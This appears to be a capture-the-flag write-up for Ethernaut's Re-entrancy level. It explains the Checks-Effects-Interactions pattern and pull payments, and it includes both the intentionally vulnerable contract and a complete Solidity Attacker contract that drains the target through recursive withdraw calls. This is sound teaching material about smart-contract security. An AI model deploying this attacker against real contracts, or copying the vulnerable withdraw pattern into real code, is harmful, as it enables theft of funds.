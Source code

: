 # [10. Re-entrancy](https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

There is a pattern called [Checks - Effects - Interactions](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html) in Solidity. Basically:
    1. you **check** whether you can do something, such as checking balance
    2. you apply the **effects** of doing it on your contract, such as updating balance
    3. you do the actual **interactions** on-chain with other, such as transferring money

In this case, the function is `withdraw` but the **interaction** comes before the **effect**. This means that when we receive money from within the `withdraw`, things are briefly in our control until the program goes back to the `withdraw` function to do the effect. When we have the control, we can call `withdraw` once more and the same thing will happen again and again.

When we create the instance in this game, we can see that:
    - `await getBalance(contract.address)` is 0.001 ether.
    - `await contract.balanceOf(player)` is 0.

We will donate some money to create our initial balance at the target, which will allow the `balances[msg.sender] >= _amount` to be true. Now, we can repeadetly withdraw that amount by re-entering the withdraw function. Since balance update effect happens after the transfer interaction, we will go on and on until the balance is depleted.As a defense, you could use a pull-payment approach: the user to be paid must come and withdraw their money themselves, rather than us paying to them.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0; 

// Interface of the target contract
interface IReentrance {
  function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}

contract Attacker {
  address public owner;
  IReentrance targetContract;
  uint targetValue = 0.001 ether;

  constructor(address payable _targetAddr) payable {
    targetContract = IReentrance(_targetAddr);
    owner = msg.sender;
  }

  // withdraw money from this contract
  function withdraw() public {
    require(msg.sender == owner, "Only the owner can withdraw."); 
    (bool sent, ) = msg.sender.call{value: address(this).balance}("");
    require(sent, "Failed to withdraw.");
  }

  // begin attack by depositing and withdrawing
  function attack() public payable {
    require(msg.value >= targetValue);
    targetContract.donate{value:msg.value}(address(this));
    targetContract.withdraw(msg.value);
    targetValue = msg.value;
  }

  receive() external payable {
    uint targetBalance = address(targetContract).balance;
    if (targetBalance >= targetValue) {
      // withdraw at most your balance at a time
      targetContract.withdraw(targetValue);
    } else if (targetBalance > 0) {
      // withdraw the remaining balance in the contract
      targetContract.withdraw(targetBalance);
    }
  }
}
```

_Note: This is how "The DAO" hack was executed, which resulted in the creation of Ethereum Classic._
